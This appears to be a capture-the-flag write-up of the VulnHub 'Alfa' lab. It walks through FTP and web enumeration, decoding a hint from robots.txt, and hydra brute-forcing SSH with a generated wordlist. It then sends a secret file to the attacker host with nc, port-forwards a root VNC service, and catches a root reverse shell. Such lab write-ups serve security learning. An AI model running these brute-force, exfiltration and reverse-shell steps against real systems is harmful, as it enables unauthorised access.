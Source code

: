 ```yaml
---
layout : post
title: alfa Writeup
image : alfa.png
date: 2021-07-19 13:18 +0530
tags: [SSH PortForwarding ,VNCViewer , Decoding ] 
---
```


In this Walkthrough , on deep exploring the robots.txt source code , we find a encoded code on decryption it revels a directory on server which lead us to create a password list of thomas user and ssh into machine using bruteforce attack , for privilage Esclation the vnc service is running on local host using ssh port forwording we gain the root access 

# Nmap 

```
Discovered open port 80/tcp on 10.0.2.100
Discovered open port 139/tcp on 10.0.2.100
Discovered open port 21/tcp on 10.0.2.100
Discovered open port 445/tcp on 10.0.2.100
Discovered open port 65111/tcp on 10.0.2.100

```
# Enumeration

```
ftp 10.0.2.100
Connected to 10.0.2.100.
220 (vsFTPd 3.0.3)
Name (10.0.2.100:user): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 0        113          4096 Dec 17  2020 .
drwxr-xr-x    3 0        113          4096 Dec 17  2020 ..
drwxr-xr-x    2 0        0            4096 Dec 17  2020 thomas
226 Directory send OK.
ftp> pass
Passive mode on.
ftp> cd thomas
250 Directory successfully changed.
ftp> ls -al
227 Entering Passive Mode (10,0,2,100,142,211).
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Dec 17  2020 .
drwxr-xr-x    3 0        113          4096 Dec 17  2020 ..
-rw-r--r--    1 0        0          104068 Dec 17  2020 milo.jpg
226 Directory send OK.
ftp> get milo.jpg

```

These are only directories present on server 

```
dirsearch --url http://10.0.2.100/ --wordlist /usr/share/wordlists/dirb/big.txt 

[06:56:47] Starting: 
[06:56:52] 301 -  306B  - /css  ->  http://10.0.2.100/css/
[06:56:54] 301 -  308B  - /fonts  ->  http://10.0.2.100/fonts/
[06:56:55] 301 -  309B  - /images  ->  http://10.0.2.100/images/
[06:56:56] 301 -  305B  - /js  ->  http://10.0.2.100/js/
[06:57:01] 200 -  459B  - /robots.txt
[06:57:02] 403 -  275B  - /server-status

```

before , this i was Bruteforcing the everyService , but forgot check the complete robots.txt page till the end , this encoded found at bottom of page 

```
curl 10.0.2.100/robots.txt

...
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>+++++++++++++++++.>>---.+++++++++++.------.-----.<<--.>>++++++++++++++++++.++.-----..-.+++.++
```
![]({{site.baseurl}}/img/vulnhub/alfa/Decode.png)

this reveled /alfa-support directory 

![]({{site.baseurl}}/img/vulnhub/alfa/alfa.png)

so here thomas gave a hint about his password has his petname with 3 digits at end 

from ftp we got a picture of a pet name milo 

so lets make a wordlist a bruteforce the ssh 

```py
with open("wordlist.txt", "w") as file:
    print("started writing on wordlist.txt")
    
    for i in range(1000):
        file.write(f"milo{i:03}\n")
            
    print("wordlist created")

```

# Exploitation 


from genrated wordlist lets bruteforce the ssh 

hydra -l thomas  10.0.2.100 -P wordlist.txt ssh -t 64 -I -s 65111

```
[65111][ssh] host: 10.0.2.100   login: thomas   password: milo666

```

password found !

# Privilage Escaltion 

```
thomas@Alfa:~$ ls -al
total 40
drwxr-xr-x 4 thomas thomas 4096 Dec 20  2020 .
drwxr-xr-x 3 root   root   4096 Dec 16  2020 ..
-rw------- 1 thomas thomas    4 Dec 20  2020 .bash_history
-rw-r--r-- 1 thomas thomas  220 Dec 16  2020 .bash_logout
-rw-r--r-- 1 thomas thomas 3526 Dec 16  2020 .bashrc
drwx------ 3 thomas thomas 4096 Jul 19 09:03 .gnupg
drwxr-xr-x 3 thomas thomas 4096 Dec 16  2020 .local
-rw-r--r-- 1 thomas thomas  807 Dec 16  2020 .profile
-rwxrwxrwx 1 root   root     16 Dec 17  2020 .remote_secret
-rw-r--r-- 1 thomas thomas 1332 Dec 20  2020 user.txt

```

from thamos home folder there is .remote_secret ! might be helpfull 

Transfering this to machine 

```s
#alphamachine

nc -nv 10.0.2.93 5555 < thomas/remote_secret 
(UNKNOWN) [10.0.2.93] 5555 (?) open

#Attackers machine 

nvlp 5555 > key
listening on [any] 5555 ...
connect to [10.0.2.93] from (UNKNOWN) [10.0.2.100] 35176
```
```
tcp        0      0 127.0.0.1:5901          0.0.0.0:*               LISTEN 
```

at local host vnc server is running as a root 

lets PortForword the port into local machine using ssh 

```
ssh -L 5901:127.0.0.1:5901 thomas@10.0.2.100
```

lets verify the port

```
nmap -p5901 127.0.0.1 -sCV
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-19 08:11 BST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.0026s latency).

PORT     STATE SERVICE VERSION
5901/tcp open  vnc     VNC (protocol 3.8)
| vnc-info: 
|   Protocol version: 3.8
|   Security types: 
|_    VNC Authentication (2)


```
yes its running in our local machine 

so we need a pass key to connect to the vnc , 

remember we got a remote_secret so this is the same pass key for vnc auth!  

lets connect to it

```
ssvncviewer -passwd key 127.0.0.1::5901
```
![]({{site.baseurl}}/img/vulnhub/alfa/Vnc.png)

excellent we are sucessfully connected now we need to get the root shell , since the nc is installed in the machine , creating the reverse shell will give us as root shell 

```
nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.0.2.93] from (UNKNOWN) [10.0.2.100] 44398
whoami 
root
python -c 'import pty;pty.spawn("/bin/bash")'
root@Alfa:~# id
id
uid=0(root) gid=0(root) grupos=0(root)
root@Alfa:~# ls
ls
root.txt  vnc
root@Alfa:~# cat r	
cat root.txt 

root_flag==>> QFqy4EUHwtu9rrrVe2T27we5W


  , ; ,   .-'"""'-.   , ; ,
  \\|/  .'         '.  \|//
   \-;-/   ()   ()   \-;-/
   // ;               ; \\
  //__; :.         .; ;__\\
 `-----\'.'-.....-'.'/-----'
        '.'.-.-,_.'.'
          '(  (..-'
            '-'



```

